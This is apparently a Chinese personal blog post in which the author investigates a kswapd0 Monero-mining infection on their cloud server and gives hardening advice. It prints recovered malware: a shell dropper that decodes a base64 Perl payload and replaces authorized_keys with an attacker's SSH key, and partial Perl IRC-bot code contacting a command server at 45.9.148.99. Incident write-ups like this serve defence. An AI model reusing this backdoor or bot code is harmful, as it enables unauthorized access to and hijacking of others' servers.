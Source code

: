 ```yaml
---
title: "Kswapd0挖矿病毒记录"
date: 2022-03-07
draft: false
image: "../../post/服务器病毒/qq_pic_merged_1646629112550.jpg"
tags: 
    - 服务器
    - 游戏
---
```


# kswapd0 挖矿病毒调查

## 背景

![Alt](../../post/服务器病毒/qq_pic_merged_1646629081866.jpg)

3 月 6 日收到了腾讯云的异地异常登入报告，马上又收到了检测出木马的报告

![Alt](../../post/服务器病毒/qq_pic_merged_1646629112550.jpg)

马上怀疑是服务器被植入了木马程序，但是时间比较晚了，先把服务器关机了然后睡觉

我也没有急着重装系统，有点贪心，想看看木马长什么样，也顺便学习一下怎么清理木马程序，怎么分析受损情况，毕竟我现在是一个个人的服务器还没有对外提供服务，可以随便重装系统，但是如果是一个网站的服务器那么肯定是不能随便重装的。

但是这个木马非常狡猾，我 3 月 6 日一天也没有找出来，也请了网安的同学来帮忙，外加腾讯给我的报错文件，我什么没有找到，一切看起来都非常正常，各种日志都没有一点痕迹连操作记录都没有，然后我就又把服务器开着等了一天。

![Alt](../../post/服务器病毒/qq_pic_merged_1646629166670.jpg)

## 出现异常

很快，第二天凌晨又被警告异地登入了，但是我当时还在睡觉没处理，早上起来一开服务器发现问题大了。

![Alt](../../post/服务器病毒/QQ图片20220307131114.jpg)

![Alt](../../post/服务器病毒/QQ图片20220307131210.png)

## 开始调查

有个程序把我的cpu直接占满了，我知道它出现了，我直接 kill 了这个程序，然后在通过查看系统的定期任务找到了它的文件，应该是只有部分了，它的很多安装步骤应该是被自己清理掉了。

![Alt](../../post/服务器病毒/Snipaste_2022-03-07_10-40-46.png)

很明显它有一些定时任务，而且我每一次开机都会更新一些木马的程序，非常难找，而且输出全部重定向到了空，所以没有运行日志，当然也它没有很过分的写 shell 反弹，否在我恐怕也不能直接发现这些定期运行的脚本了。

然后根据上面运行的脚本目录，我找到了它的一些文件

![Alt](../../post/服务器病毒/Snipaste_2022-03-07_10-42-11.png)

![ALt](../../post/服务器病毒/Snipaste_2022-03-07_10-42-35.png)

![Alt](../../post/服务器病毒/Snipaste_2022-03-07_10-42-55.png)

![Alt](../../post/服务器病毒/Snipaste_2022-03-07_10-44-39.png)

![Alt](../../post/服务器病毒/Snipaste_2022-03-07_10-46-04.png)

![Alt](../../post/服务器病毒/Snipaste_2022-03-07_10-51-52.png)

里面有很多脚本程序，比如启动挖矿程序，为了躲避产生日志的脚本，还有一些判断系统硬件的，还有脚本杀死别的挖矿软件……，还有删除一些文件的（所以应该丢失了不少关键文件）

当然最重要的还是要看一下挖矿程序(省略)

```shell
#!/bin/sh
nohup ./stop>>/dev/null &
sleep 5
echo "ZXZhbCB1bnBhY2sgd......" | base64 --decode | perl
cd ~ && rm -rf .ssh && mkdir .ssh && echo "ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEArDp4cun2lhr4KUhBGE7VvAcwdli2a8dbnrTOrbMz1+5O73fcBOx8NVbUT0bUanUV9tJ2/9p7+vD0EpZ3Tz/+0kX34uAx1RV/75GVOmNx+9EuWOnvNoaJe0QXxziIg9eLBHpgLMuakb5+BgTFB+rKJAw9u9FSTDengvS8hX1kNFS4Mjux0hJOK8rvcEmPecjdySYMb66nylAKGwCEE6WEQHmd1mUPgHwGQ0hWCwsQk13yCGPK5w6hYp5zYkFnvlC8hGmd4Ww+u97k6pfTGTUbJk14ujvcD9iUKQTTWYYjIIu5PmUux5bsZ0R4WFwdIe6+i6rBLAsPKgAySVKPRK+oRw== mdrfckr">>.ssh/authorized_keys && chmod -R go= ~/.ssh
```

有一个用 `perl` 写的程序还有一个 `ssh` 远程登入

因为是 `base64` 压缩，所以通过解码并且将 `perl` 加入输出命令得到了源码（部分）

```perl
my $processo = 'rsync';

$servidor='45.9.148.99' unless $servidor;
my $porta='443';
my @canais=("#007");
my @adms=("polly","molly");
my @auth=("localhost");

my $linas_max=6;
my $sleep=3;

my $nick = getnick();
my $ircname = getnick();
my $realname = (`uname -a`);

my $acessoshell = 1;
my $prefixo = "! ";
my $estatisticas = 0;
my $pacotes = 1;

my $VERSAO = '0.2a';

$SIG{'INT'} = 'IGNORE';
$SIG{'HUP'} = 'IGNORE';
$SIG{'TERM'} = 'IGNORE';
$SIG{'CHLD'} = 'IGNORE';
$SIG{'PS'} = 'IGNORE';

use IO::Socket;
use Socket;
use IO::Select;
chdir("/");
$servidor="$ARGV[0]" if $ARGV[0];
$0="$processo"."\0";
my $pid=fork;
exit if $pid;
die "Problema com o fork: $!" unless defined($pid);

my %irc_servers;
my %DCC;
my $dcc_sel = new IO::Select->new();

sub getnick {
  return "x".int(rand(9000)).int(rand(9000));
}


sub getident {
  my $retornoident = &_get("http://www.minpop.com/sk12pack/idents.php");
  my $identchance = int(rand(99000));
  if ($identchance > 30) {
     return $nick;
  } else {
     return $retornoident;
  }
  return $retornoident;
}

sub getname {
  my $retornoname = &_get("http://www.minpop.com/sk12pack/names.php");
  return $retornoname;
}

sub getident2 {
        my $length=shift;
        $length = 3 if ($length < 3);

        my @chars=('a'..'z','A'..'Z','1'..'9');
        foreach (1..$length)
        {
                $randomstring.=$chars[rand @chars];
        }
        return $randomstring;
}
......

```

其中有一个很明显的 ip 地址 `45.9.148.99` 通过 `IP` 地址定位，发现是在荷兰，臭名昭著~

![Alt](../../post/服务器病毒/Snipaste_2022-03-07_12-41-06.png)

还有一个主文件 `kwsapd0` 但是是经过特殊加密的，暂时不会解码的手段，不过根据网上的查询多半是 `XMRig` 编译的 `Linux` 平台**门罗币**挖矿木马了。

这次的木马调查也只能到此结束了，后面深入的事情也不是我有能力去做的了，只是很讨厌这种行为，通过木马挖矿就是小偷行为，偷别人的算力，非常可耻！

## 总结

自己的服务器要小心，不要被别人拿去白打工了，密码最好复杂一点，各个用户的都要复杂一点，因为不是 `sudo`用户也有可能被入侵，密码最好定期跟换，对于端口开放要谨慎，要限制访问 `IP`。

这次的木马时间算是给了我一个教训吧，辛亏服务器内数据不多，损失也不算大，但是以后还是要多加小心。
